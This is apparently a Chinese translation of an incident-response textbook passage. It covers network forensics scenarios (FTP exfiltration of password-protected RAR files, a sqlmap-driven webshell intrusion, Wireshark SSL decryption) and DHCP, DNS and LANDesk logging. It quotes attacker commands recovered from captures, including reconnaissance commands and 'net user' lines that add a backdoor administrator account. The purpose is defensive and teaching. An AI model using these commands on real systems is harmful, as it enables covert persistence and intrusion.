那么在这个会话中，我们如何确定该过程是自动化还是手动的呢？在许多情况下，表明任务是手动执行的最明显的指示是错误。例如，打字错误以及不正确的命令使用，然后成功重试是一个强有力的指示，表明人类正在手动执行任务。时间是另一个很好的指标-自动化进程在命令之间有很少的延迟。当命令很长时，这是最明显的，但即使命令很短，通常也会清楚地表明人类正在手动执行任务。例如，在这个会话中，FTP提示和响应之间有一个“长”延迟。我们可以通过查看Wireshark中会话的默认显示来查看这些命令的时间，如图9-6所示。FTP用户名的提示显示在会话的0.003秒，但用户名直到会话的2.5秒才发送，延迟超过两秒。如果使用了自动化，那么该延迟将是毫秒级别的。因为自动化可以被制作得与手动交互类似，因此这并不能证明任务是手动执行的，但这是一个很好的指标。此时，我们已经从第二个会话中获取了大部分信息，让我们回到第一个会话。

到外部IP地址203.0.113.100的第一个会话比最初的线索的系统早了大约15分钟。让我们查看这个会话，看看它是否似乎与调查有任何联系，而不仅仅是相同的外部IP地址。如果我们在Wireshark中打开此会话，我们会发现它与第二个会话非常相似。登录凭据也是“frank”。在统计|对话中，TCP选项卡显示两个对话。一个是FTP，另一个是ftp-data。使用与上次会话相同的技术，我们查看FTP命令，并看到一个名为edi-transfer.bin的单个文件被传输到外部IP地址。这个文件名与第二个会话中的edi-source.bin相似。这个文件比上一个要小得多，只有2KB（而不是553KB）。使用相同的方法保存文件，你再次看到了“Rar!”头，表明这个文件也是RAR文件。我们提取了数据并在7-Zip中打开了它。图9-7显示了恢复的RAR文件的内容。


您可能立即识别出其中一些文件名，例如127.0.0.1.cachedump，作为Windows“fgdump”密码哈希转储工具的一部分。通过任何主要搜索引擎的查询也会将这些文件名与fgdump相关联。攻击者使用fgdump从Windows系统获取密码哈希，然后随后破解哈希以显示密码。如果管理员最近登录到Windows系统，则其密码哈希可能已经被破坏了。不幸的是，RAR文件受到密码保护，我们无法在此时提取文件。如果我们能够破解或以其他方式获取另一个RAR文件的密码，那么它很有可能也能用于此文件。至少，这个证据强烈表明这个会话是恶意的，并且可能与我们之前检查的会话有关。现在让我们回过头来看看检查这两个会话所揭示的内容以及可能需要采取的后续步骤。

我们发现这两个会话都传输了受密码保护的RAR文件。命名约定相似，目标IP地址相同，表明它们可能相关。基于每个RAR文件中文件名称，我们怀疑其中一个包含源代码，另一个包含从Windows计算机转储的密码哈希。为了确认RAR文件中的内容，您应该请求额外的分析以尝试找到RAR命令行，或请求RAR文件的密码破解。您还应该找出为什么第一个会话没有通过您的主机检查工具发现-我们期望看到RAR或FTP执行的证据。这些答案可能会导致更多有关攻击者如何操作的发现，并为您的调查提供更好的ompromise指标。

此时，我们已经完成了我们的第一个场景。虽然还有一些问题，例如RAR文件的密码是什么，但现在是时候转向我们的第二个场景——webshell侦察了。

#### Webshell侦察场景

在这个场景中，我们将切换视角。您的入侵检测系统监视位于DMZ子网203.0.113.0/24上的Web服务器，警报您有一个来自DMZ的端口扫描。在调查过程中，您确定端口扫描来自于203.0.113.101上的一个公共可访问的基于Apache的Web服务，该服务器也运行了Apache Web服务器使用的MySQL实例。您询问IT团队是否有人执行了端口扫描，他们表示最近没有授权此类活动。您查看Web服务器上的登录历史记录，但看到当时没有用户登录。您决定需要更仔细地查看Web服务器。
由于服务器是公开可访问的，所以您认为一个可能的解释是该站点被某种方式攻击了。因此，您首先要对Apache服务器日志进行分析。日志显示在端口扫描时段内出现了异常大量的请求。这些请求来自一个您不认识的外部IP地址。分析显示，在短时间内有许多请求到许多页面，然后请求只会转到一个名为/apps/login.php的单个页面。这些请求大多是POST请求。不久之后，GET请求开始转到/tmpbkxcn.php，直到来自相关外部IP地址的活动停止。对/tmpbkxcn.php的GET请求包含如“cmd=netstat”和“cmd=tasklist”的字符串，因此最初看起来像是恶意SQL注入，但您不确定这些命令实际上是否有效。您决定需要查看网络捕获数据以帮助您找出发生了什么。智慧地在之前的事件中实施了全内容流量保留系统的网络捕获团队为您提供了有关感兴趣日期的DMZ Web服务器和您识别的外部IP地址之间的所有流量的完整内容pcap文件。

- 注：
  
    这个例子也说明了对警报做出快速反应的重要性。在情景中，我们注意到网络团队已经实施了全内容保留系统，以应对之前的事件中吸取的教训。当然，鉴于传感器的数据速率和收集的流量，存储的内容是有限的。在这个例子中，我们能够在收集系统清空缓冲区之前识别和保留会话。
    

您在Wireshark中打开文件并立即注意到了一个问题。会话发生在端口tcp/443上，这是您预期看到标准安全套接字层（SSL）流量的端口。如图9-8所示，流量确实是加密的，此时您无法查看任何内容。
您听说Wireshark具有SSL解密功能，决定尝试一下。经过一些快速研究，您了解到解密SSL有重要因素。您必须具有会话主密钥，或者会话必须没有使用前向保密，您需要Web服务器的私有SSL RSA密钥。顺便说一下，这可能是您第一次听说前向保密-它是一种加密方案，其中会话主密钥（密钥）针对每个会话进行唯一派生，因此即使具有服务器的私有密钥，您也无法解密会话。并非所有Web服务器和Web浏览器都支持前向保密方法，尽管它们正在变得越来越普遍。在这种情况下，DMZ Web服务器未配置前向保密，因此您可以获取服务器的私有SSL密钥并配置Wireshark以解密会话。


SSL密钥的位置在Apache配置文件中设置。网站管理员应该能够找到并提供您密钥或密钥。一旦您获得了密钥，将其添加到Wireshark中很容易。从菜单中选择编辑|首选项，然后单击协议并键入SSL。这应该会带您到SSL首选项页面，如图9-9所示。


- 注意：
  
    如果您的调查在此连接的另一侧怎么办？我们如何从远程服务器访问SSL证书文件？这涉及到调查的人类方面。远程服务器通常不是由恶意行为者拥有的。攻击者将接管托管的服务器或使用窃取的付款卡租用虚拟服务器。通常情况下，当他们被通知怀疑活动起源于他们控制下的系统时，实际所有者或托管公司愿意提供帮助。在这些情况下，您可以联系子网的记录所有者，解释情况，并提供共享攻击的任何细节，以帮助他们更好地保护其服务器。
    

单击“RSA密钥列表：”旁边的“编辑...”按钮。在这里，您将添加一个新密钥。输入服务器的IP地址，端口（443）和协议（http），然后浏览密钥文件并选择它。如果密钥受密码保护，请确保在提供的文本框中输入密码。然后单击“确定”关闭配置窗口。 Wireshark会自动应用密钥，因此如果您输入的信息正确，则可以立即查看会话的解密部分，如图9-10所示。请注意，默认情况下，Wireshark将在“解密的SSL数据”标签中在数据包字节窗格中显示重新组装和解密的SSL数据。该标签不会在每个帧上显示，因为Wireshark会重新组装多个相关帧并在最后一个相关帧上显示标签。

现在，您可以查看会话中传输的明文数据，并开始检查POST命令中传输的数据。图9-11显示了数据包的内容，包括编码的URL字符串。您很快注意到，大部分发送到login.php的POST请求都包含一个包含“sqlmap/1.0-dev”的用户代理字符串。 Sqlmap是一个SQL注入工具，可帮助自动查找和利用Web页面上的SQL注入漏洞。

- **在Web上获取Sqlmap网站** sqlmap.org

尽管无法确定是否使用了sqlmap，因为用户代理字符串很容易被欺骗，但这一发现与我们目前所了解的情况是一致的。您决定查看login.php代码，注意到它直接将POST参数接受到SQL查询中——这显然是一个安全问题，可能导致这一事件的发生。在对login.php的重复访问量很高之后，有许多对tmpbkxcn.php的零散请求。您怀疑这可能是一个Webshell，因为您在Apache日志中看到了GET请求的一部分包含“cmd=”的条目。

接下来，您使用Wireshark对tmpbkxcn.php进行数据包详细信息搜索。您发现，这个页面是通过对另一个页面/tmpuiimz.php的POST请求上传的。然后，您在tmpuiimz.php的数据包详细信息搜索中搜索，发现它是通过对login.php页面进行SQL注入放置在系统中的。用户代理字符串是“sqlmap/1.0-dev ([http://sqlmap.org](http://sqlmap.org/))”，因此您怀疑攻击者使用了sqlmap的内置功能来安装这些文件。

网络捕获显示，文件tmpuiimz.php仅用于上传tmpbkxcn.php。您使用Wireshark的数据包详细信息搜索来查找对tmpbkxcn.php的请求，当您浏览每个匹配项时，您会发现攻击者成功执行了许多命令，包括以下内容：

- net view
- tasklist /v
- netstat -anb
- tree c:\
- dir /s c:\
- unzip nmap-6.40-win32.zip
- 113.bat


您认为这些命令是成功的，因为pcap数据显示了每个命令的输出。大多数命令似乎是侦察活动；然而，两个命令修改了Web服务器上的用户帐户：

```
net user backup secret /add
net localgroup Administrators backup /add

```

这些命令成功创建了一个名为“backup”的新本地Windows用户帐户，并将其添加到Administrators组中。也许攻击者希望使用此帐户作为维护网络上系统访问的后备方法。

让我们回顾一下您已经确定的内容。您发现有证据表明攻击者使用了一个名为sqlmap的工具来查找和利用login.php页面中的SQL注入漏洞。攻击者继续使用sqlmap进行侦察。侦察包括操作系统命令，如netstat和taskview，以及上传和执行nmap端口扫描工具。攻击者还创建了一个本地Windows用户帐户，并将其添加到Administrators组中。最后，攻击者删除了他们创建的所有文件。此时，网络捕获数据已经让您充分了解了攻击者如何利用系统以及他们所做的事情。

其他网络分析工具

在我们的两个场景中，我们使用了Wireshark进行分析。但正如我们之前提到的，还有其他工具可以使用。Wireshark维护了一个广泛的网络分析工具列表：

- **GO GET IT ON THE WEB**
  
    [wiki.wireshark.org/Tools](http://wiki.wireshark.org/Tools)
    

我们想简要讨论一个不在列表中的工具，因为我们发现它在许多场景中非常有用。该工具名为NetWitness Investigator。虽然名称类似于RSA的企业NetWitness平台，但Investigator是一个独立的网络流量分析工具，也可以直接捕获网络数据。NetWitness Investigator是免费的，但需要注册。该工具附带一个小的演示捕获会话，并提供全面的文档，可以在菜单下的帮助|帮助文档中访问。

- **GO GET IT ON THE WEB**
  
    [www.emc.com/security/rsa-netwitness.htm#!freeware](http://www.emc.com/security/rsa-netwitness.htm#!freeware)
    

NetWitness Investigator自动识别会话并以基于类别的高级演示方式显示它们。例如，NetWitness将所有会话放置在服务类型类别中，例如HTTP、DNS和FTP。除了标准网络协议外，NetWitness还将会话放置在应用程序协议服务类别中，例如MSN IM、IRC以及许多其他常见应用程序。图9-12显示了NetWitness Investigator附带的演示会话的处理内容。请注意，概述显示了会话的内容，从寻址到从IRC和HTTP会话中提取的文件。


这种分类类型视图可以帮助调查人员快速识别和审查他们更感兴趣的流量类型。这种类型的展示也帮助调查人员看到会话不同属性之间的关系，例如特定IP地址和与之相关的服务类型。例如，如果您从源IP地址类别中选择一个IP地址，则类别名称和计数将更新，以反映仅涉及该IP地址的会话。

### **收集从网络事件生成的日志**

在响应事件时，不要忽视所有潜在的证据来源！大多数网络流量在其行进路径上的某个地方留下审计记录。以下是一些例子：

- 路由器、防火墙、服务器、IDS传感器和其他网络设备可能会维护记录网络事件的日志。
- DHCP服务器会在系统请求地址时记录网络访问。
- 防火墙允许管理员在创建审计日志时有很大的灵活性。
- IDS传感器可能会通过签名识别或异常检测筛选器捕获攻击的一部分。
- 基于主机的传感器可能会检测到系统库的更改或敏感位置中文件的添加。
- 来自几个区域外的主域控制器的系统日志文件可能会显示在登录尝试期间的身份验证失败。

当您结合所有现有的基于网络的证据时，可能可以重建特定的网络事件，例如文件传输、SQL注入攻击或在您的网络上使用的被攻击的帐户。

基于网络的日志记录比标准的基于系统的日志记录具有一些优点。任何可以访问系统的人，无论是远程还是本地控制台，都可以更改系统执行的任何文件或函数。因此，可以提出一个有力的论点，即正确处理的基于网络的日志可能比受害机器上的基于主机的系统日志更可靠和有效。特别是在严格控制物理访问和命令级访问到网络设备的情况下。监视日志是专门生成的基于网络的证据，这些证据是通过已建立的责任链以控制的方式收集的。

- 注意：
  
    我们在本章的几个地方都提到了这一点，但是作为专注的努力收集的日志应被视为证据，并且应完全记录它们的责任链。如果网络传感器捕获了相关的流量，请导出在事件发生时捕获的pcap数据，将其记录为证据，并在工作副本上执行分析。
    

虽然所有这些基于网络的信息源都可以提供调查线索，但它们经常为调查人员提出独特的挑战。基于网络的日志以许多格式存储，可能来自多个不同的操作系统，可能需要特殊软件才能访问和读取，地理位置分散，并且有时使用不准确的时间戳。调查人员的挑战在于定位所有这些日志并进行相关性分析。从许多不同的系统获取地理位置分散的日志、为每个日志维护责任链并重构基于网络的事件是耗时和资源密集的。许多时候，所有这些日志的正确组合仍然描绘出一个丑陋而不完整的画面。因此，许多组织执行网络监视，如本章前几节中所解释的，以增强从其他相关日志中获得的数据。

### **那又怎样？**

仅依靠基于主机的方法来获取和分析数据通常会导致不完整的结论。此外，如果网络证据可用以加强基于主机的发现，您得出的结论将具有更大的权重。如果没有网络传感器和NetFlow探针，您的修复工作很可能也不完整。它们是确定您是否成功追踪攻击者并将其赶出网络的重要工具。您的IR团队必须熟悉工具及其可能在您的网络上观察到的典型流量，以便在需要时更容易地识别可疑活动。在我们有地面传感器的每次调查中，我们都能更全面地了解事件的范围。

### **问题**

1. 架构一个新的网络监控系统时，应向IT或网络人员提出哪些问题？您如何帮助确保完全可见您的网络流量？
2. 您的团队如何通过统计网络监视检测以下可疑活动？
    1. 安装Dropper恶意软件
    2. 恶意软件从远程站点检索命令
    3. 可能的数据盗窃
3. 什么是完美的前向保密性，它如何影响您解密SSL流量的能力？您如何解密使用前向保密算法加密的SSL流量？
4. 您将如何快速识别一个包含数千个会话的大型pcap文件是否包含FTP活动？您将如何提取传输的文件？

## 第10章 企业服务

每个企业网络都拥有提供运营和业务所需的关键服务的支持基础设施。其中一些服务仅在大型企业环境中发现，但其他服务在几乎每个网络中都找到。其中许多服务与安全无关。但是，所有这些服务都可以帮助您查找恶意行为并解决犯罪。在本章中，我们将讨论企业服务和相关应用程序，这些服务和应用程序在事件响应期间经常为我们提供有用的信息。对于每个服务，我们解释它的目的，生成的日志或其他有用的工件以及您如何在调查过程中使用这些工件作为证据。在本章末尾，我们简要讨论了一些我们发现有用的分析方法。此外，请记住，这些服务通常作为补救措施的一部分使用，我们将在第17和18章中进行更多讨论。

我们选择涵盖四个类别的主题，包括网络基础设施、企业管理、防病毒和应用程序支持。这包括Web服务器、DNS服务器、数据库服务器和软件计量工具。在不留下任何证据的情况下侵入环境很困难，但是可以在其中一个或多个服务上留下证据。我们希望向您展示如何找到这些证据。但是，由于每个企业环境都不同，我们鼓励您发现贵组织拥有的服务。您应该花时间了解如何使用它们，并确保它们配置为为您提供有用的信息。

- 警告：
  
    在本章中，我们讨论了可以对企业服务进行的更改，这些更改可能会在事件期间对您有所帮助。由于这些更改可能会导致停机或其他问题，我们强烈建议您与您的IT部门合作，让他们实施任何更改。
    

### **网络基础设施服务**

本节涵盖了两个是企业网络的核心组成部分的常见服务。根据我们的经验，它们提供的证据是每个调查的重要组成部分。虽然这些服务不太可能告诉您攻击者试图实现什么，但它们将帮助您跟踪攻击者的行动并确定事件的范围。这两个服务是：

- 动态主机配置协议（DHCP）
- 域名系统（DNS）

#### **DHCP**

大多数企业使用DHCP为连接到网络的设备分配IP地址。DHCP还可以配置其他网络设置，例如DNS服务器、默认域名、网络时间协议（NTP）服务器和IP路由。DHCP协议通过UDP端口67和68进行通信。DHCP的当前规范是RFC（评论请求）2131，其中包含有关DHCP标准的进一步详细信息：

- **在网络上获取它**
  
    [tools.ietf.org/html/rfc2131](http://tools.ietf.org/html/rfc2131)
    

在调查中，DHCP最重要的方面是将IP地址分配给系统，称为DHCP租约。由于大多数租约不是永久的，因此给定设备随时间可能有多个不同的IP地址。此外，DHCP租赁的持续时间是可配置的，将从几分钟到几天甚至几周不等。这可能使得当您只知道IP地址时，很难将网络活动追溯到真实的源。当前分配可疑IP地址的系统可能与发生可疑活动时分配该IP地址的系统不同。如果您正在调查分配了DHCP IP地址的系统，则应检查DHCP日志以确定在您感兴趣的时间点将IP地址映射到系统。如果您不这样做，可能会浪费时间查看错误的系统。我们通常对DHCP日志运行两个搜索：

- **搜索日期以获取IP地址** 这将告诉您在该日期哪个系统被分配了IP地址。这在跟踪在IDS警报中识别出的IP地址的系统时非常有用。因为警报指定了IP地址，该IP地址是由DHCP分配的，因此此搜索允许您确定与该IP地址相关联的系统。
- **搜索MAC地址的所有日期** 这将告诉您系统随时间分配的所有IP地址和相关日期。一旦确定了作为事件一部分的系统，我们会执行此搜索，以便我们可以查找那些日期针对那些IP地址的证据来源。这通常会发现更多线索。

我们遇到的最常见的DHCP解决方案是Microsoft和Internet Systems Consortium（ISC）DHCP服务器。在以下部分中，我们将介绍如何启用日志记录、日志记录的位置以及可用的信息的基础知识。这些信息以及基本的搜索方法将使您能够确定在特定日期和时间点哪个系统具有给定的IP地址。让我们从Microsoft的DHCP开始。

##### **Microsoft DHCP**

Microsoft的DHCP服务器默认启用日志记录。日志以纯文本格式编写， 默认情况下存储在 %windir%\System32\Dhcp（例如，C:\Windows\System32\Dhcp）中。随着时间的推移，Microsoft已经向日志文件添加了许多字段。让我们从Server 2003开始查看可用字段，其中包含以下七个字段：

- ID - 事件ID代码。事件ID代码的描述在日志的开头。
- 日期 - 事件以本地时间记录的日期。
- 时间 - 事件以本地时间记录的时间。
- 描述
- IP地址
- 主机名
- MAC地址 - 请求IP地址的主机的MAC地址。

Windows Server 2008添加了以下六个字段，总共有13个字段：

- 用户名
- 事务ID
- QResult
- Probationtime
- CorrelationID
- Dhcid

Windows Server 2012除了添加了Server 2008添加的字段外，还添加了五个字段，共18个字段：

- VendorClass（Hex）
- VendorClass（ASCII）
- UserClass（Hex）
- UserClass（ASCII）
- RelayAgentInformation

Server 2008和2012的DHCP日志还包含用于解释一些附加字段的信息。以下是Microsoft DHCP服务器日志条目的示例：

```
ID，日期，时间，描述，IP地址，主机名，MAC地址，用户名，
   TransactionID，QResult，Probationtime，CorrelationID，Dhcid，
   VendorClass（Hex），VendorClass（ASCII），UserClass（Hex），UserClass（ASCII），
   RelayAgentInformation。

```

```
10，06/18/13，11:22:31，分配，192.168.44.200，Bob-PC.example.com，08002746BF16，，
   1534159513，0，，，0x4D53465420352E30，MSFT 5.0，，，

```

- 警告：
  
    需要注意的问题是，Microsoft DHCP日志中的日期和时间字段是本地时间！如我们之前所提到的，本地时间是事故处置者的噩梦，应始终优先选择UTC。使用本地时间也与一些Microsoft服务（如Internet Information Services（IIS））不同，可能会在您尝试关联事件时导致混淆和困难。
    

自Windows Server 2003 R2以来，DHCP日志记录已默认启用。但是，如果没有日志文件存在，则可以通过在Windows控制面板的“管理工具”下找到的DHCP服务管理控制台启用日志记录。单击一个地址空间（例如，IPv4），右键单击并选择“属性”，然后在常规选项卡中选择“启用DHCP审核日志记录”。如果发现日志记录已启用，请检查“高级”选项卡以查看日志路径 - 可能有人更改了默认位置。

Microsoft的DHCP日志记录的主要问题是，一个星期是默认保留的最长持续时间。 Microsoft DHCP日志文件命名约定是DhcpSrvLog-<day>.log，其中<day>是三个字母的星期几缩写（例如Mon）。这意味着给定日期的日志将在下周被覆盖 - 这对事故响应者来说是可怕的。在我们与大多数组织合作的过程中，IT人员并不认为DHCP日志保存很重要 - 对于大多数IT要求，这是可以接受的。但是，由于大多数事件的发生时间超过一周，因此您必须与IT工作人员协调以确保记录和保存DHCP日志。

现在我们已经介绍了Microsoft DHCP，让我们看看ISC DHCP。

##### **ISC DHCP**

ISC的DHCP服务器是一个免费的开源DHCP服务器。 ISC DHCP服务器可以在多个操作系统上运行，包括Linux，BSD，OS X甚至Windows。我们最常见地发现ISC的DHCP服务器部署在基于Linux或BSD的操作系统上。您可以在以下网站下载服务器并阅读更多信息：

- **GO GET IT ON THE WEB**
  
    [www.isc.org/downloads/dhcp](http://www.isc.org/downloads/dhcp)
    

在基于Unix的系统上，ISC的DHCP服务器默认会记录到syslog local7设备。要确定对应的日志文件或目标的位置，您需要研究如何在您的环境中配置日志记录。最常见的基于Unix的日志记录服务是syslog，rsyslog和syslog-ng。标准syslog的配置文件是/etc/syslog.conf，rsyslog是/etc/rsyslog.conf，而syslog-ng是/etc/syslog-ng.conf。查看配置文件以查找提到local7设备的条目。

ISC DHCP服务器通常为每个客户端请求IP地址生成两个日志条目：一个DHCPDISCOVER条目和一个DHCPOFFER条目。在以下示例中，有两个与单个客户端请求相关联的条目。第一个条目表示MAC地址为2e：34：c7：ab：17：03的客户端请求了IP地址（DHCPDISCOVER）。服务器从名为re1的网络接口接收了该请求。第二个条目显示服务器向客户端提供了IP地址10.18.0.179（DHCPOFFER）。提供条目还指示了客户端的计算机名称（Bob-VM）和MAC地址。以下是日志条目的示例：

Jun 18 11:38:27 dhcpd: DHCPDISCOVER from 2e:34:c7:ab:17:03 via re1
Jun 18 11:38:28 dhcpd: DHCPOFFER on 10.18.0.179 to 2e:34:c7:ab:17:03 (Bob-VM) via re1

请注意，我们执行的测试中的日期和时间为本地时间，但这可能会因本地配置而异。

#### **DNS**

域名系统（DNS）是一个存储主机名信息的系统。DNS提供了各种各样的信息，但最常见的功能是查找或解析主机名。例如，当您浏览您最喜欢的网站www.example.com时，您的计算机必须首先确定与www.example.com相对应的IP地址。您的计算机将自动查询已配置的DNS服务器以解析主机名。通常在一秒钟左右，DNS服务器将返回IP地址，例如93.184.216.119。然后，您的计算机可以与该地址建立TCP/IP连接并开始通信。DNS客户端解析通常使用UDP端口53，DNS区域传输使用TCP端口53。如果您对DNS协议有更多详细信息的兴趣，我们建议您查看RFC 1034和1035：

**上网获取**

[tools.ietf.org/html/rfc1034](http://tools.ietf.org/html/rfc1034)[tools.ietf.org/html/rfc1035](http://tools.ietf.org/html/rfc1035)

DNS解析过程是调查的重要证据来源。DNS服务器可以收集日志，其中可能显示以下内容：

- 请求解析的主机名（查询），[例如www.example.com](http://xn--www-uc0ep96b.example.com/)
- 请求解析的客户端的IP地址
- 解析结果（答案），例如93.184.216.119

这些元素可以帮助您确定通过包含链接的电子邮件钓鱼的环境中的哪些主机，或者可能发现具有活动恶意软件的主机。如果您有一个良好的DNS解析历史存档，您将能够更有信心地回答有关事件的完整时间线的问题。在识别期间，良好的存档尤其重要，因为许多恶意域频繁更改解析 - 或者更改为新的IP地址，或者更改为“停靠”状态，其中主机名解析为例如localhost（127.0.0.1）的IP地址。与任何可能有助于调查的日志记录一样，理想的情况是设置集中日志聚合和存储。

##### **ISC伯克利互联网名称域（BIND）**

在BIND版本9中，默认情况下关闭查询日志记录。您可以通过将以下内容添加到named.conf.local文件中来打开查询日志记录：

```
logging {
    channel query.log {
        file "/var/log/query.log";
        print-time yes;
        severity debug 3;
};
    category queries { query.log; };
};

```

修改文件名和路径以适应您的环境。还要不要忘记创建文件并设置正确的所有权：

```
touch /var/log/query.log
chown bind /var/log/query.log

```

您必须重新启动BIND服务器才能使这些更改生效。服务器将开始记录DNS客户端提交的查询到query.log日志文件。BIND 9查询日志将包含类似于以下内容的条目：

```
client 10.18.0.80#42772: query: example.com IN A + (10.18.0.53)

```

此条目指示执行查询的客户端和查询的主机名。在本例中，具有IP地址10.18.0.80的计算机执行了主机名example.com的DNS查找。 "IN A"表示客户端请求IP v4地址。请求IP v6地址将包含“IN AAAA”。

如果您还想记录响应（DNS答案），则必须进一步增加日志记录级别。目前，记录响应的唯一方法是启用“默认”类别并将调试级别增加至少10。请注意，这将生成大量日志数据。要进行此日志记录更改，请将以下内容添加到named.conf.local文件中，并重新启动BIND服务器：

```
logging {
    channel resolution.log {
        file "/var/log/resolution.log";
        print-time yes;
        severity debug 10;
221};
category default { resolution.log; };
};

```

启用这些更改后，BIND将在日志文件中添加与查询响应相关的多行条目。例如，对于www.example.com的查询，会生成以下日志条目，用于最终响应数据包：

```
10-Mar-2014 10:34:00.480 resquery 0x7f1f4b8b62d0 (fctx
0x7f1f4b8af010(www.example.com/A)): response
10-Mar-2014 10:34:00.480 received packet:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id:  46924
;; flags: qr aa; QUESTION: 1, ANSWER: 2, AUTHORITY: 3, ADDITIONAL: 5
;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags: do; udp: 4096
;; QUESTION SECTION:
;www.example.com.    IN    A;; ANSWER SECTION:
www.example.com.    86400
IN    A    93.184.216.119
```

关键区域是ANSWER SECTION，它显示DNS服务器找到的www.example.com的IPv4地址。正如您所猜测的那样，这种格式不太适合轻松分析-稍后再讨论这个挑战。现在，让我们继续讨论Microsoft DNS。

Microsoft DNS

默认情况下，在Microsoft DNS服务器上关闭DNS查询日志记录。要记录查询，您可以使用DNS控制面板启用调试日志记录。该过程适用于Windows Server 2003到2012。打开控制面板，选择管理工具，然后选择DNS。右键单击服务器名称，然后选择属性。然后单击“调试日志记录”选项卡，并启用以下复选框：

- “为调试记录日志数据包”
- 数据包方向：
    - 发送和接收
    - 传输协议：
        - UDP
- 数据包内容：
    - 查询/传输
    - 包类型：
        - 请求和响应

要查看完整的答案数据包，您还需要启用：
• 其他选项：

- 细节

但是，请注意，启用详细信息将生成大量日志数据。最后，请检查日志文件路径和名称是否适合您的环境，并将最大大小调整为适当的数字。如果文件路径和名称为空，则默认日志文件为％systemroot％\system32\dns\dns.txt。如果您只指定文件名，则默认文件夹为％systemroot％\system32\dns。
请记住，当您重新启动DNS服务或重新启动系统时，日志文件会被截断（创建一个新文件，因此之前的内容会丢失）。此外，如果达到最大大小，将截断日志文件。由于没有内置的日志旋转，这可能会导致您丢失大量DNS日志记录。以下是Microsoft DNS日志记录的字段描述：

```powershell

Message logging key (for packets - other items use a subset of these fields):
223Field #  Information
-------  -----------
Values
------
1 Date
2 Time
3 Thread ID
4 Context
5     Internal packet identifier
6     UDP/TCP indicator
7     Send/Receive indicator
8 Remote IP
9 Xid (hex)
10     Query/Response
11 Opcode
R = Response
blank = Query
Q = Standard Query
N = Notify
U = Update
? = Unknown
        12     [ Flags (hex)
        13     Flags (char codes)  A = Authoritative Answer
                                   T = Truncated Response
                                   D = Recursion Desired
                                   R = Recursion Available
        14     ResponseCode ]
        15     Question Type
        16     Question Name
```

这些字段的唯一例外是Server 2003不记录内部数据包标识符字段；否则，它是一致的。与Microsoft DHCP记录相同，DNS日志记录本地时间的日期和时间。在进行分析时要记住这一点。以下是Microsoft DNS日志的一条示例条目：

```
6/14/2013 1:59:01 PM 03EC PACKET  00000000027A4070 UDP Snd 10.18.0.80
   000a R Q [8081   DR  NOERROR] A      (7)example(3)com(0)

```

如果您启用了详细信息选项，您的日志中还将看到以下内容：

```
6/14/2013 1:59:01 PM 03EC PACKET  00000000027A4070 UDP Snd 10.18.0.80000a R Q [8081   DR  NOERROR] A
UDP response info at 00000000027A4070
...
    QUESTION SECTION:
    Offset = 0x000c, RR count = 0
    Name      "(7)example(3)com(0)"
QTYPE A (1)
(7)example(3)com(0)
      QCLASS  1
    ANSWER SECTION:
    Offset = 0x001d, RR count = 0
    Name      "[C00C](7)example(3)com(0)"
      TYPE   A  (1)
      CLASS  1
      TTL    86389
      DLEN   4
      DATA   192.0.43.10
    AUTHORITY SECTION:
      empty
    ADDITIONAL SECTION:
empty

```

请注意，我们删除了22行，并用省略号替换了上述示例代码中的内容-这仅涉及来自一个客户端的单个查询！由于Microsoft和ISC DNS服务器都很难记录DNS查询的简明答案，更好的选择是考虑网络级别的日志记录。在下一节中，我们将研究一个可能会帮助您的免费工具。

##### **网络层DNS日志记录**

正如您所看到的，主要的DNS服务器仍无法提供关于查询和响应（答案）的简明日志记录。记录响应将导致无关的输出以及响应。在BIND 9和Microsoft DNS中，DNS答案生成跨越数十行的日志记录并生成巨大的日志文件。这些问题使得大多数环境下的应用程序级DNS响应记录不可行。

在需要记录DNS响应的情况下，基于网络的解决方案可能更为合理。其中一种选择是名为DNSCAP的工具。DNSCAP专门设计用于监视特定DNS流量 - 查询、响应或两者。DNSCAP可以将DNS流量记录到PCAP文件中，或为检测到的每个DNS数据包输出dig风格的消息。如果您的网络只有少数出口点，那么建立专用系统来捕获和记录DNS流量可能更有意义。您可以在以下网址了解有关DNSCAP的更多信息并下载源代码：

- **赶快上网下载**
  
    [www.dns-oarc.net/tools/dnscap](http://www.dns-oarc.net/tools/dnscap)
    

### **企业管理应用程序**

许多企业都拥有第三方软件管理或清单工具，允许管理员控制和审计其环境中系统上安装的应用程序。这些工具，其中许多并不是专门为安全监控而设计的，通常可以为您提供有关在系统上运行的软件的信息。因为攻击者很可能在受攻击的系统上运行工具和恶意软件，这些管理应用程序可以提供有关攻击者活动的洞察力。

尽管企业软件管理应用程序通常具有用于报告和部署的管理控制台，但本节将重点介绍这些应用程序在系统上创建的取证工件。您可能会收到驱动器的取证副本或被要求调查您无法访问管理控制台的环境。在这些情况下，您可以使用本节中描述的技术来查找威胁指标。

我们将介绍的两个软件管理应用程序是LANDesk的软件管理套件和Symantec的Altiris客户端管理套件。

#### **LANDesk软件管理套件**

用于管理软件清单的热门第三方应用程序是LANDesk Software的管理套件。虽然LANDesk管理套件具有多种功能，但对于事件响应者而言，最重要的是软件许可证监控（SLM）组件。这个组件跟踪系统上运行的每个应用程序的执行历史记录，并提供大量信息，例如应用程序运行的日期和时间、可执行文件的文件属性以及运行它的用户帐户。

即使应用程序被删除，LANDesk SLM记录的信息仍将留在系统上。攻击者经常将诸如密码哈希转储器之类的工具复制到系统上，执行一次，然后将其删除。即使二进制文件不再存在于文件系统中，您也可以在LANDesk SLM监视器日志中找到这方面的证据。您可以在他们的网站上了解更多关于LANDesk的信息：

- **GET IT ON THE WEB**
  
    [www.landesk.com/products/management-suite](http://www.landesk.com/products/management-suite)
    

在接下来的几个部分中，我们将介绍LANDesk存储SLM数据的位置，如何解析数据以及一些有关要查找的内容的提示。让我们从LANDesk存储SLM数据的地方开始。

##### **LANDesk注册表键**

LANDesk Management Suite在Windows SOFTWARE注册表中存储有关软件执行的信息，位于以下键下：

LANDesk \ ManagementSuite \ WinClient \ SoftwareMonitoring \ MonitorLog

MonitorLog键包含每个由SLM记录的系统上执行的应用程序的子键。每个应用程序子键包含以下值：

| Attribute Name
 | Description
 | Type
 |
| --- | --- | --- |
| Current Duration | The amount of time (100 nanoseconds) that the software has been running | REG_BINARY |
| Current User | The user that last executed the software | REG_SZ |
| First Started | The date that LANDesk first recorded execution of the software | REG_BINARY |
| Last Duration | The amount of time (100 nanoseconds) the software ran the last time it executed | REG_BINARY |
| Last Started | The date that LANDesk last observed the software executed | REG_BINARY |
| Total Duration | The total time the software has run (100 nanoseconds) | REG_BINARY |
| Total Runs | The total times LANDesk has recorded the execution of the software | REG_DWORD |

